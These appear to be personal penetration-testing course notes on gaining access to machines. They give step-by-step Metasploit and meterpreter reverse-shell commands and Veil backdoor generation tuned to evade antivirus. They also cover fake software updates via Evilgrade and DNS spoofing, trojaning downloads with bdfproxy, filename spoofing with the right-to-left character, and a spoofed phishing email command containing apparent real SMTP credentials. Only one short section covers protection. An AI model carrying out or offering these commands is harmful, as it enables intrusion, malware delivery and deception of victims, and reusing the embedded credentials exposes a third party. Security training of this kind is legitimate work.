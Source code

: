 Gaining Access
==============

Introduction
------------

Everything is a Computer
^^^^^^^^^^^^^^^^^^^^^^^^

Two main approaches

Server Side

- Do not require user interaction, all we need is a target IP
- Start with information gathering, find open ports, OS, installed services, and work from there

Client Side

- Require user interaction, such as opening a file, a link
- Information gathering is key here, create a trojan and use social engineering to get the target to run it.

Server-Side Attacks
-------------------

- Need an IP Address
- Very simple if target is on the same network (netdiscover or zenmap)
- If target has a domain, then a simple ping will return its IP
- Getting the IP is trickier if the target is a personal computer, might be useless if the target is accessing the internet through a network as the IP will be the router and not the targets, client side attacks are more effective in this case asa reverse connection can be used.

Basic Information Gathering & Exploitation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Try default password
- Services might be mis-configured, such as the "r" service. Ports 512, 513, 514
- Some might even contain a back door!
- Code execution vulnerabilities

Analysing Trojans
^^^^^^^^^^^^^^^^^

* Check properties of the file
* Is it what it seems to be
* Run the file in a virtual machine and check resources
* Use an online sandbox service (https://www.hybrid-analysis.com)

Using the Above Attacks Outside the Network
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* All of the server-side and client-side attacks work outside the network.
* You just need to configure the connection properly.

This can be done using:

* Port forwarding through the router
* Installing Kali / tools on the cloud
* Port forwarding using SSH
* Tunneling services
Metasploit
^^^^^^^^^^

Metasploit is an exploit development and execution tool. It can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks.

You can Google the open ports exploits and copy the exploit name from rapid7.com to get the exploit name.

- `msfconsole` - runs the metasploit console
- `help` - shows help
- `show [something]` - something can be exploits, payloads, auxiliaries or options.
- `use [something]` - use a certain exploit, payload or auxiliary.
- `set [option] [value]` - configure [option] to have value of [value]
- `exploit` - runs the current task

Example:

.. code-block:: bash

    msfconsole
    use exploit/multi/samba/usermap_script
    show options
    set RHOST 10.20.14.204
    show options
    show payloads
    set PAYLOAD cmd/unix/reverse_netcat
    show options
    set LHOST 10.20.14.203
    exploit

Nexpose
^^^^^^^

Vulnerability Management Framework

- Discover open ports and running services
- Find vulnerabilities
- Find exploits
- Verify them
- Generate reports
- Automate scans

Conclusion
^^^^^^^^^^

The general steps are always the same!

1. Discover open ports and running services
2. Find vulnerabilities
3. Find exploits
4. Exploit / verify
5. Report

Client-Side Attacks
-------------------

- Use if server side attacks fail
- If IP is probably useless
- Requires user interaction
- Social engineering can be very useful
- Information gathering is vital

Veil - Framework
^^^^^^^^^^^^^^^^

- A backdoor is a file that gives us full control over the macine that it gets executed on
- Backdoors can be caught by Anti-Virus programs
- Veil is a framework for generating undetectable backdoors

Veil Overview & Generating Backdoor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: bash

    use 1
    list
    use 15
    set LHOST 10.20.14.213
    set LPORT 8080
    options
    set PROCESSORS 1
    set SLEEP 6
    generate
    rev_https_8080

- Google nodistribute
- Upload the file
- See the program being undetected from antivirus programs

Listening for Incoming Connections
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: bash

    msfconsole
    use exploit/multi/handler
    show options
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST 10.20.14.213
    set LPORT 8080
    show options
    exploit

Delivery Method
^^^^^^^^^^^^^^^

- Put your backdoor file in /var/www/html in Kali
- service apache2 start
- Browse, download and start the exe file on Windows
- Simple method which wont work see below

Windows 10 Fake Updates
^^^^^^^^^^^^^^^^^^^^^^^

- Fake an update for an already installed program
- Install backdoor instead of the update
- Requires DNS spoofing + Evilgrade (a server to serve the update)

1. Download and install Evilgrade

    - Download Evilgrade.zip
    - Go to the downloads and boule click evilgrade.zip to uncompress it.
    - Open a terminal and run the following commands:

.. code-block:: bash

    cd /root/Downloads/evilgrade/
    cpan Data::Dump
    cpan Digest::MD5
    cpan Time::HiRes
    cpan RPC::XML
    cp -r isrcore /etc/perl

Now the tool will work, it might display an error about Gnu.pm
this is a known bug with evil-grade, if its annoying you
the you can get rid of it using the by removing that lib using
the following command

`apt-get remove libterm-readline-gnu-perl`

Just make sure you re-install it after you're done in case it is
needed by other tools

`apt-get install libterm-readline-gnu-perl`

2. Start Evilgrade (`./configure`)
3. Check programs that can be hijacked (`show modules`)
4. Select one (`configure [module]`)
5. Set backdoor location (`set agent [agent location]`)
6. Start Server (`start`)
7. Start dns spoofing and handler

.. code-block:: bash

    # Once in evilgrade:
    cd /opt/evilgrade
    ./evilgrade
    show options
    configure dap
    show options
    set agent /var/www/html/backdoor.exe
    set endsite www.speedbit.com
    show options
    start

    # Become MITM
    bettercap -iface eth0 -caplet /root/spoof.cap
    set dns.spoof.all true
    set.spoof.domains update.speedbit.com
    dns.spoof on

    # Listen for connections
    # Then wait for the user to look for updates

Backdoor Windows 10 Downloads on the Fly
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Backdoor any exe the target downloads
- We need to be MITM

1. Set IP Address in config (`leafpad /etc/bdfproxy/bdfproxy.cfg`)

.. code-block:: bash

    proxyMode = transparent
    # Windows
    HOST = 10.0.2.15

2. Start bdfproxy (`bdfproxy`)

.. code-block:: bash

    cd /opt/BDFProxy
    ./bdf_proxy.py

3. Redirect traffic to bdfproxy (`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`)
4. Start listening for connections (`msfconsole -r /usr/share/bdfproxy/bdf_proxy_msf_resource.rc`)
5. Start arp spoofing

Protecting Yourself Against Smart Delivery Methods
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Ensure you're not being MITMed - use trusted networks, xarp
- Only download from HTTPS pages
- Check file MD5 after download - http://www.winmd5.com

Social Engineering
------------------

* Gather info about the users
* Build a strategy based on the info
* Build a backdoor based on the info

Maltego
^^^^^^^

Maltego is an information gathering tool that can be used to collect information about anything.

* Target can be a website, company, person, etc.
* Discover entities associated with target
* Display info on a graph
* Come up with an attack strategy

Backdooring any File
^^^^^^^^^^^^^^^^^^^^

* Combine backdoor with any file - generic solution
* Users are more likely to run a pdf, image, or audio file than an executable
* Works well with social engineering
* How?

    * Use a download and execute payload that would:

        * Download a normal file (image, pdf, etc) and display it to the user
        * Download the evil file and execute it in the background

* Use autoit to compile the backdoor file
* Use right to left character (search for character in Kali) and replace .exe with gpj.exe and paste the special character after the name of the file

Fake Emails
^^^^^^^^^^^

* Send fake emails
* Looks like its sent from any address
* Pretend to be a friend, company, boss, etc.
* Friend - Ask them to open a file (image, pdf, etc.)
* Support member - ask to login to control panel using fake login page
* Support member - ask to run a command on a server
* Ask to visit a normal web page
* etc.

.. code-block::

    sendemail -xu jhnwck70@gmail.com -xp CBPr90hgSDUHL2vF -s smtp-relay.sendinblue.com:587 -f "user@company.com" -t "target@company.com" -u "Check out this car" -m "Hey, checkout this car https://url.com/link-to-file-download.jpg" -o message-header="From: Name Surname <name.surname@company.com>"

* Use attached sendmail.php

Beef Framework
^^^^^^^^^^^^^^

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Targets are hooked once they load a hook url

* DNS spoof requests to a page containing the hook
* Inject the hook in brosed pages (need to be MITM)
* Use XSS exploit
* Social engineer the target to open a hook page

Get the user to browse to your beef page

